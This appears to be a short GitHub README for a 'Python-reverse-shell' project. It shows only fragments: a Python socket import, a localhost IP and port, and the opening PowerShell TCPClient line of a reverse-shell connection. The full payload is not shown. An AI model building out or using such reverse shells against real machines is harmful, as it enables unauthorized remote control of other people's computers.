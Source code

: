 # Python-reverse-shell
Using sockets in python, you can connect to another computers powershell.
<br/>
<br/>
Note: Do remember to change the IP's and ports to your preferred IP's and Ports.
<br/>
`
import socket
`
<br/>
`
ip_adress = '127.0.0.1'     
`
<br/>
`
port_number = 1234      
`


You need to match the same Ip and port in the powershell code in
<br/>
`
$client = New-Object System.Net.Sockets.TCPClient('127.0.0.1',1234);
`
